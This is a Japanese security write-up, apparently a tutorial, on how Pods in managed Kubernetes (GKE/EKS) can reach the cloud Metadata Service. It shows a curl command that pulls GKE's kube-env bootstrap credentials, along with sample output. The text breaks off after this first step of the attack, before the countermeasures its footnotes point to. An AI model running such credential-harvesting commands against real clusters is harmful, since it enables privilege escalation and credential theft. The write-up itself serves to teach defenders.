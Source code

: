 # Metadata Service へのアクセス

GCP や AWS などのクラウドプロバイダーには Metadata Service と呼ばれるインスタンスに対して任意のデータを提供するエンドポイントがあり、インスタンスから http://169.254.169.254/ にアクセスすることで取得できます。  
GKE や EKS などのマネージド Kubernetes も例外ではなく、適切なアクセス制御を施さなければ Pod から Metadata Service にアクセスすることができ、権限昇格へとつながる可能性があります。  
ここでは GKE / EKS でこれらのエンドポイントにアクセスできた場合の攻撃例と対策を紹介します。

## GKE

GKE の Metadata Service に含まれる `kube-env` という Metadata にはノードをクラスタにジョインさせるために必要な bootstrap 処理に使用されるクレデンシャル(CA 証明書と公開,秘密鍵)が格納されています。  
これを利用して CertificateSigningRequest を作成することで kubelet のクライアント証明書を取得できます。さらに、その取得した証明書を使って kubelet として API サーバーにリクエストを送信することができてしまうのです。

これは GKE のコントロールプレーンとノードの認証方法に関するドキュメントに記載されています。[^1]

> Each node in the cluster is injected with a shared Secret at creation, which it can use to submit certificate signing requests to the cluster root CA and obtain kubelet client certificates. These certificates are then used by the kubelet to authenticate its requests to the API server. Note that this shared Secret is reachable by Pods, unless metadata concealment is enabled.

それでは実際に試していきます。GKE でクラスタを作成し、Pod に入ったあと、まずは Metadata へのアクセスを確認します。

```shell
root@test:/# KUBE_ENV_URL="http://169.254.169.254/computeMetadata/v1/instance/attributes/kube-env"
root@test:/# curl -s -H "Metadata-flavor: Google" "${KUBE_ENV_URL}"
ALLOCATE_NODE_CIDRS: "true"
API_SERVER_TEST_LOG_LEVEL: --v=3
AUTOSCALER_ENV_VARS: kube_reserved=cpu=60m,memory=960Mi,ephemeral-storage=5Gi;node_labels=beta.kubernetes.io/fluentd-ds-ready=true,cloud.google.com/gke-nodepool=default-pool,cloud.google.com/gke-os-distribution=cos
CA_CERT: LS0tLS1CRUdJ...S0tLS0tCg==
CLUSTER_IP_RANGE: 10.0.0.0/14
CLUSTER_NAME: sandbox-cluster
CNI_SHA1: dcbeba8d6be7a49e399bda6b8b638d312eace876
CNI_STORAGE_PATH: https://storage.googleapis.com/gke-release/cni-plugins/v0.8.5-gke.1
CNI_STORAGE_URL_BASE: https://storage.googleapis.com/gke-release/cni-plugins
CNI_TAR_PREFIX: cni-plugins-linux-amd64-
CNI_VERSION: v0.8.5-gke.1
CREATE_BOOTSTRAP_KUBECONFIG: "true"
DNS_DOMAIN: cluster.local
DNS_SERVER_IP: 10.3.240.10
DOCKER_REGISTRY_MIRROR_URL: https://mirror.gcr.io
ELASTICSEARCH_LOGGING_REPLICAS: "1"
ENABLE_CLUSTER_DNS: "true"
ENABLE_CLUSTER_LOGGING: "false"
ENABLE_CLUSTER_MONITORING: none
ENABLE_CLUSTER_REGISTRY: "false"
ENABLE_CLUSTER_UI: "true"
ENABLE_L7_LOADBALANCING: glbc
ENABLE_METADATA_AGENT: ""
ENABLE_METRICS_SERVER: "true"
ENABLE_NODE_LOGGING: "false"
ENABLE_NODE_PROBLEM_DETECTOR: standalone
ENABLE_NODELOCAL_DNS: "false"
ENABLE_SYSCTL_TUNING: "true"
ENV_TIMESTAMP: "2020-09-10T02:20:16+00:00"
EXTRA_DOCKER_OPTS: --insecure-registry 10.0.0.0/8
FEATURE_GATES: DynamicKubeletConfig=false,TaintBasedEvictions=false,RotateKubeletServerCertificate=true,ExperimentalCriticalPodAnnotation=true
FLUENTD_CONTAINER_RUNTIME_SERVICE: containerd
HEAPSTER_USE_NEW_STACKDRIVER_RESOURCES: "true"
HEAPSTER_USE_OLD_STACKDRIVER_RESOURCES: "false"
```

[^1]: https://cloud.google.com/kubernetes-engine/docs/concepts/cluster-trust
[^2]: https://kubernetes.io/docs/reference/access-authn-authz/certificate-signing-requests/#kubernetes-signers
[^3]: https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity
[^4]: https://cloud.google.com/kubernetes-engine/docs/how-to/shielded-gke-nodes
[^5]: https://docs.aws.amazon.com/eks/latest/userguide/best-practices-security.html